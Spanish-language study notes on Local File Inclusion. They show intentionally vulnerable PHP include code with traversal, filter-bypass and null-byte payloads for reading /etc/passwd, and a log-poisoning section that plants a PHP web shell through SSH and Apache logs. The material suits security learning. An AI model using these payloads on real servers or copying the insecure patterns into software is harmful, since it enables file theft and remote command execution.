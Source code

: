 ----
- Tags: #basico #ataques #teoria #practica 
---

# ¿ Que es un **LFI** ?

### El **LFI** es una vulnerabilidad de seguridad informática que se produce cuando una aplicación web **no valida adecauadamente** las entradas del usuario, permitiendo a un atacante **acceder a archvios locales** en el servidor web.

### Muchas veces, los atacantes aprovechas el **FLI** al abusar de parámetros de entrada en la aplicación web. Los parámetros de entrada son datos que los usuarios ingresan en la aplicación web, como las URL o los campos de formulario. Los atacantes pueden manipular los parámetros de entrada para incluir rutas de archivo local en la solicitud, lo que puede permitires acceder a archivos en el servidor web. Esta técnica se conoce como **"Path Traversal"** y se utiliza comúnmente en ataques de **LFI**.

---

# Explotación 

### Para enumerar los posibles **LFI** y su respectiva explotación lo vamos a hacer de manera local junto a un archivo php para levantar nuestro servicio de apache, de esta manera, podemos ver como un desarrollador podria encarar el intento de **LFI** asi como **burlarlo**. 

#### Archivo index.php
```php
	$filename = $_GET['file'];
	include($filename); 
```

### Esto seria la **LFI** más basica, ya que directamente es confia en el input del usuario, donde se lee una query de la url con nombre file para incluirla a invel de sistema. Con poner en la url `....?file=/etc/passwd` estariamos leyendo archivos locales del sistema.

#### Intento triste de sanitización
```php
	$filename = $_GET['file'];
	include("/var/www/html" . $filename);
```

### Este "intento" de sanitización intenta obligar al usuario a introducir un arhivo de manera que se lo concatena con la ruta /var/www/html intentando obligar asi a que el archivo se encuentre en esta ruta, pero burlarlo, una vez más es posible, ya que jugando con **Path Traversal** se puede realizar ingresando en la url                                `...?file=../../../../../../../etc/passwd` estariamos volviendo a leer archivos locales del sistema.

#### Segundo intento de sanitización 
```php
	$filename = $_GET['file'];
	$filename = str_replace("../", "", $filename);
	include($filename); 
```

### En este nuevo intento, el desarrollador podria estar intentando evitar un **Path Traversal** de manera que intenta remplazar los valores `../` por `''` , es decir que esta eliminando de nuestro input los ../, pero, una vez más esto sigue siendo vulnerable, ya que este remplazo no es de manera recursiva, por lo que si ahora ingresamos en la url el valor de `...?file=....//....//....//....//....//....//....//....//....//....//etc/passwd` estariamos una vez más volviendo a leer archivos locales del sistema.

#### Jugando con regex
```php
	$filename = $_GET['file'];
	$filename = str_replace("../", "", $filename);
	if ( preg_match("/\/etc\/passwd/", $filename) === 1){
    echo "\n[!] No es posible visualizar el contenido de este archivo.\n"; 
	}else{  
    include("/var/www/html/" . $filename);
	}
	```

### En este caso, no solo esta intentando evitar un **Path Traversal** como anteriormente si no que tambien esta jugando con regex para evitar la string `/etc/passwd`, pero esto sigue siendo vulnerable, no solo por el hecho de que jugando con `....//` se puede listar cualquier archivo, si no que tambien, podriamos listar el etc/passwd ya que la regex filtra por exctamente /etc/passwd por lo que podriamos ingrear `/etc/////./././///////passwd` y seguiriamos pudiendo listar este y cualquier archivo local del sistema.  (Se pueden ingresar cuantas barras '/' y puntos '.' querramos.)

### Tambien a nivel de sistema, cuando usamos el `?` se pueden buscar archivos, por ejemplo `cat /e?c/pa??wd`. 

#### Forzando extensiones de archvios
```php
$filename = $_GET['file'];
	$filename = str_replace("../", "", $filename);
	include("/var/www/html/" . $filename . ".php"); 
```

### En este caso el desarrollador estaria intentando forzarnos a que lo que ingresemos tenga la extención .php, por lo que si quisieramos ingresar /etc/passwd estariamos ingresando /etc/passwd.php (En caso de sortear todo tipo de validación posible). En este caso, lo que podriamos hacer es hacer uso de un **NULL Byte**, es importante aclarar que esto funciona para versiones antiguas de php y no actuales. Solo haria falta poner en la url 
### `...?file=....//....//....//....//....//....//....//....//....//etc/passwd%00`, el **%00** es un null Byte, lo cual anula lo posterior al mismo, anulando asi la extención '.php'. 

### Tambien si se hiciera una validación tal que  `if(substr($argv[1],-6,6)!="passwd") include($argv[1]);` asi, en donde se evalua que los ultimos 6 caracteres no sean "passwd", para versiones antiguas de php, podriamos utilizar el `/.` para burlar esto, de manera que si ingresamos `/etc/passwd/.` estariamos burlando la validación. Lo mismo que si se utilizara lo mismo para validar extenciones, por ejemplo`if(substr($argv[1],-4,4)!=".txt") include($argv[1]);`, de esta manera no podriamos ver  archivos .txt, pero si hicieramos `file.txt/.` una vez más, estariamos burlando esto. 

----

#  Log Poisoning - ( **LFI** migrado a [[RCE - (Remote Command Execution)]] )

### El **Log Poisoning** es una técnica de ataque en la que un atacante **manipula** los **archivos de registro (logs)** de una aplicación web para lograr un resultado malintencionado. Esta técnica puede ser utilizada en conjunto con una vulnerabilidad **LFI** para lograr un [[RCE - (Remote Command Execution)]].  

### Esto se puede dar abusando de los archivos de logs de ssh, Mail, Apache, etc.

- ## SSH 
### Podriamos desde un **LFI** ver la ruta `/var/log/auth.log` o `/var/log/btmp`, entre otras, para ver los logs de SSH, y de esta manera, en caso de que los podamos ver, envenenar el log (**Log Poisoning**) intentando conectarnos a ssh por ejemplo con el comando `ssh '<?php system($_GET["cmd"]); ?>'@192.168.1.38`. 

- ## Apache 
### Podriamos desde un **LFI** ver la ruta `/var/log/apache2/access.log`, entre otras, para ver los logs de Apache, y de esta manera, en caso de que los podamos ver, envenenear el log (**Log Poisoning**) intentando hacer un curl a la ruta y inyectando el comando php en el User-Agent con el comando `curl -s -X GET 'http://192.168.1.38' -d 'User-Agent: <?php system($_GET["cmd"]); ?>'` o con  `curl -s -X GET 'http://192.168.1.38' -A '<?php system("whoami"); ?>'`.

-----

# Dirs 

### /etc/apache2/sites-enabled/000-default.conf 
### Cuando hay login alert ---> .htaccess / .htpasswd 
